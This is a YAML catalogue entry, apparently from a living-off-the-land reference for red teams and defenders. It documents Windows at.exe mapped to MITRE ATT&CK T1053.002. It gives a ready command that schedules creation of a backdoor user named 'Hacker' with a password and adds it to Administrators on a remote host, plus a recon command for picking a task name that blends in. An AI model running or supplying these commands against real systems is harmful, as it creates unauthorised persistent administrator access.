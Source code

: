 ```yaml
---
Name: at.exe
Description: Schedules commands and programs to run on a computer at a specified time and date
Updated: 2023-11-04
Toolsets:
  - Builtin
Commands:
  - Command: 'at.exe \\W10.ad.bitsadmin.com 06:00 cmd /c "net user Hacker H4ck#rt /add & net localgroup Administrators Hacker /add"'
    Description: Execute task
    Usecases:
      - Create backdoor user or launch implant
    Function: Execute
    Comments:
      - Deprecated in favor of [schtasks.exe](../schtasks)
    MitreAttack:
      - T1053.002
  - Command: at.exe \\W10.ad.bitsadmin.com
    Description: List tasks
    Usecases:
      - List current tasks to identify a name that can be used for a new task to blend in
    Function: Recon
    Comments:
    MitreAttack:
      - T1053.002
Resources:
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```

